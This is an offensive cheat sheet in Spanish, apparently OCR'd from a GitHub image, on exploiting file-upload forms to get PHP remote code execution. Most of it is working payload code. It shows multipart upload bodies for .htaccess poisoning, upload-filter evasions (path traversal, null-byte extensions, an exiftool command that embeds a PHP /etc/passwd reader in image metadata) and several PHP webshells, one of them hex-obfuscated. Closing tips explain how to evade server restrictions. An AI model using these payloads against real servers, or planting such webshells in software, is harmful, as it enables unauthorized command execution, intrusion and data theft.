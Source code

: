 
---

#### 🚀 **1. .htaccess Poisoning**
Aprovechamiento de archivos `.htaccess` para ejecutar código PHP en servidores mal configurados.

**Paso 1: Subida del archivo .htaccess**
```php
Content-Disposition: form-data; name="fileToUpload"; filename=".htaccess" 
Content-Type: text/plain

AddType application/x-httpd-php .test 
```

**Paso 2: Subida de un archivo PHP disfrazado**
```php
Content-Disposition: form-data; name="fileToUpload"; filename="cmd.test" 
Content-Type: application/x-php

<?php
    system($_GET['cmd']);
?>
```

---

#### 🕵️‍♂️ **2. Técnicas de Evasión en la Subida**
Burlando filtros de extensión y nombre de archivo:

- **Path Traversal:**  
  ```bash
  ../shell.php
  ```
- **Caracteres de Codificación:**  
  ```bash
  %2e%2e%2fshell.php
  ```
- **Null Byte Injection:**  
  ```bash
  shell.php%00.jpg
  ```
- **Metadatos en Imágenes (Exiftool):**  
  ```bash
  exiftool -comment="<?php echo 'LOOK HERE' . file_get_contents('/etc/passwd'); ?>" background.png
  ```
  
---

#### 🐚 **3. Webshells en PHP** 💻
Diversos métodos para obtener ejecución remota de comandos:

- **Webshell simple con backticks (`):**  
  ```php
  <?=`$_GET[0]`?>
  ```
- **Webshell clásico con `system`:**  
  ```php
  <?php
      $c = $_GET['cmd'];
      echo `$c`;
  ?>
  ```
- **Ejecución directa con `system()`:**  
  ```php
  <?php
      "system"("id");
  ?>
  ```
- **Ejecución con encoding hexadecimal (obfuscación):**  
  ```php
  <?php
      "\x73\x79\x73\x74\x65\x6d"($_GET['cmd']);
  ?>
  ```

---

#### 🎯 **Consejos de Uso:**
- **Verifica siempre la extensión permitida** en el servidor.  
- **Prueba múltiples combinaciones de extensión y nombre** para evadir restricciones.  
- **Aprovecha los filtros de contenido mal configurados**.  
- **Cambia el tipo de contenido y la codificación** para ver si el servidor lo interpreta como PHP.  

---

💡 ¡Guarda este cheat sheet en tu Obsidian para tenerlo siempre a mano! 💥